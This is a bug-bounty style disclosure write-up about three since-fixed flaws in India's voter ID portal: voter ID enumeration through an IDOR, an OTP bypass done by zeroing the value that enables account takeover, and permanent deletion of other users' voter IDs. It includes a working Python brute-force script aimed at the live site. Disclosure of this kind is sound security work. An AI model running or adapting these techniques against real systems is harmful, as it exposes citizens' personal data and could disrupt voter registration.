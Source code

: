 ```yaml
---
layout: post
title: Exposing Millions of Voter ID card users’ details.
date: 2022-07-07
summary: Three critical bugs in India's voter portal led to the exposure of voter ID card users' data, impacting millions of individuals.
categories: VDP
tags: [IDOR, ATO]
---
```




![](/blog/images/voter.webp)


*Hi, Everyone. hope you’re well. I’m [Aziz](https://twitter.com/nxtexploit). Through this write-up, I will share some security issues I’ve found on the official Voter ID card maintaining platform [http://nvsp.in](https://nvsp.in). I was filling out a correction form for my mom’s card, I’m not really interested in finding bugs on gov websites :`) that moment [burpsuite ](https://portswigger.net/burp/documentation/desktop/penetration-testing)was running in the background and I thought let's have a try. After spending half an hour I found some critical issues that I’m going to share. All these issues are already fixed by the government.*

In India, a [Voter ID](https://www.google.com/search?q=what+is+voter+ID+%28india%29) card is an identity document issued by the Election Commission of India to adult domiciles of India who have reached the age of 18, which primarily serves as an identity proof for Indian citizens while casting their ballot in the country’s municipal, state, and national elections. More than **780 million** Voter IDs are active at present.

* ## **Bruteforcing valid Voter IDs and extracting details (IDOR / BOLA)**

While registering a new account it shows two options “I have ``EPIC`` number” and “I don’t have `EPIC` number”. `EPIC` stands for Electors Photo Identification Card and the `EPIC` number is nothing but Voter ID no. If we chose we don’t have a Voter ID number then they will give you an option to add after registering on the portal. After registration, I tried to add any random `EPIC` no. with my account but it show it's not valid. So I sent that HTTP request to burp intruder for [brute-forcing](https://en.wikipedia.org/wiki/Brute-force_attack).

![](https://cdn-images-1.medium.com/max/2728/1*SKG6_nhMm0PkRkRXJjK2yg.png)

A Voter ID also known as `EPIC` number is an alphanumerical ID, it contains three Alphabets at starting and seven numbers i.e. `WRI2345678`, `RDH2345678`, `DTN2345678`, `YCV2345678`, `NLN2345678`, `XMB2345678`, etc. These three alphabets are Not random alphabets, you can find similar IDs with similar these three alphabets in beginning but the rest seven digits are different.

![](https://cdn-images-1.medium.com/max/2000/1*oCiejaOMRmwdEpIRzi27PQ.png)

I added the payload position on these seven-digit numbers on `Epic_no=` parameter i.e `Epic_no=WRI$2345678$`  (as you can see in the below screenshot.)

![Adding payload position](https://cdn-images-1.medium.com/max/2236/1*xz61EAZwEhSWlsDpMkJSSw.png)

Surprisingly there is no limitation implemented in the backend and I was able to send **unlimited requests** without getting blocked by firewall. As a result backend server responding 302 redirections for every valid voter ID. (As shown in the screenshot below)

![responding 302 for every valid voter ID](https://cdn-images-1.medium.com/max/2740/1*dLe_eyFiPf9amQz0o50meQ.png)

Then I wrote a [python script](https://github.com/nxtexploit/Voter-ID-bruteforcer/blob/main/Voter-ID-bruteforcer.py) that will brute force the values and give output all valid voter_IDs for me.

![](https://cdn-images-1.medium.com/max/2000/1*DA8ghQIWnJlNZty0OK6oEA.gif)

```python

import urllib3
import requests
import time
from termcolor import colored
urllib3.disable_warnings()
start = time.perf_counter() 

cookies = {
    'nvsp': '4e565XXXXX',
    'cookiesession1': '678B286C164561FFEFXXXXXXXXXXX',
    'nvsp': '4e56XXXXX',
    'nvspid': 'ycnpiabqfasdf0asdf09ad',
    '__RequestVerificationToken': 'taDxPTIR3vxuyduujVCoi5eJdSlsAv1X0MQea7VYvLf6ksNDNsK7BkQZbNLSKagASDFpouasdfuopasfcsCmlofM6tTlC1opGS9FBEjYYXxC-z9ze73zdtEjUXtq9JfGVDfsXwt3WmQ925gSsbUw2',
    '.ASPXAUTH': '53BDCF7905E361CB6ECE80B77506A1A4A54DFS6546A5DF787AS8DFB2B9CE6874FDE524BF7BAE0DDC59329705AB29D49A148B4494341EC7634C13DB69FA25425DCA10CAADA3A10B025D58D8220E842959F0C650A8DF39B43039354B537BCE61AFB4922B99E22F20DC099C0DE9BC2CA53D1A37F387867855DDE5D89583B2F5F95D898A',
}

headers = {
    'Host': 'www.nvsp.in',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://www.nvsp.in',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.nvsp.in/Account/MyProfile',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


for voter_ID in range(2000000,2999999,1):


    data = '__RequestVerificationToken=dayrB-CCldwVYHXi7OE8b455jM3jLXRIdlHGQ5Wf4XyFE_7jjo1X3VfmkC4ZanqFO6h0XtveuAmSk1SIWWmV-SbA7nTUIJNKAfyRoiG43FvEAlDPi5VfkJWpGn9sV8IuFuBezLnC-tZSYFGqrRbECXgqlxpSduENgqaWy7oWQK01&OTP=&UserId=UQH34XXXXXXXX&firstName=Aziz&lastName=&Email=XXXXXXXX%40gmaill.com&Epic_no=WRI'+str(voter_ID)+'&PhoneNumber=XXXXXXXX87&st_code=S25&ac_no=55&PART_NO=42&Captcha=&Code='

    response = requests.post('https://www.nvsp.in/Account/MyProfile',allow_redirects=False, cookies=cookies, headers=headers, data=data, verify=False)

    if response.status_code == 302:
        print(f"Epic-ID FOUND = "+colored("WRI"+str(voter_ID),'green'))
    elif response.status_code == 200:
        print(colored("Not valid ID",'yellow'))
    else:
        print(colored("Session Expired ",'red')+"(response code = "+colored(str(response.status_code),'yellow')+")")

finish = time.perf_counter()

print(f'\n\nFinished in {round(finish-start, 2)} second(s)\n')

```

Now I have valid Voter IDs of random persons then, I added these IDs with my profile under “[/Account/MyProfile](https://www.nvsp.in/Account/MyProfile)”. Then there is an option under the “/[forms](https://www.nvsp.in/Forms)/”section which is **form001** and this form is already filled with **Name, father’s name, address, Date of birth, etc. **according to that valid EPIC ID added to my profile.

![**Extracted details of a random Person**](https://cdn-images-1.medium.com/max/2732/1*6izoRB4cWjN5zjdZTDYdJg.png)

---

* ## **Account takeover (OTP bypass)**

On the profile details updating section I was trying to add another user's number. So I created another account for it. But there was an OTP implanted there, and I tried to brute-force it but it didn’t work :( I remember reading an article last year, you can read it **[here](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)**, where the author just added 0 after intercepting the request. And I did the same thing here on OTP parameter and it worked :)

![intercepting traffic while OTP is verifying](https://cdn-images-1.medium.com/max/2740/1*q0TSMqdgsXTtzROWDo6y9g.png)

![[Changed the OTP value to zero](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)](https://cdn-images-1.medium.com/max/2000/1*eEVjGxhUUzdbv2vkHlExnw.png)

After bypassing I thought it just can register the victim’s number then I’ll reset the password, But surprisingly on replacing the victim’s number my profile data automatically changed with the victim’s details, And I can own his account.

![](https://cdn-images-1.medium.com/max/2740/1*az1-jwdyMLK1pOLWbA6ghA.png)

---

* ## **Delete/remove any random user’s Voter ID card Permanently (Logic flaw)**

From the 1st bug, we can get and add any random user’s Voter ID to our account, From that on the home page there is an option for “Deletion of Enrolment”. And nothing to be needed after an attacker added any random Voter ID on his profile section. then he can easily delete any random user’s Voter ID permanently.

![An attacker can delete any random user’s card permanently](https://cdn-images-1.medium.com/max/2732/1*SvvI8ZoSelvF3-83BzQRTw.png)

I reported these three issues to [vdisclose@cert-in.org.in](https://www.cert-in.org.in/VulnerIncident.jsp) and they fixed these issues.

I hope you liked this article, If you have any questions then you can dm me on [Twitter](https://twitter.com/nxtexploit).

Thanks for reading,

[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/nxtexploit)
[![twitter](https://img.shields.io/badge/twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white)](https://twitter.com/nxtexploit)
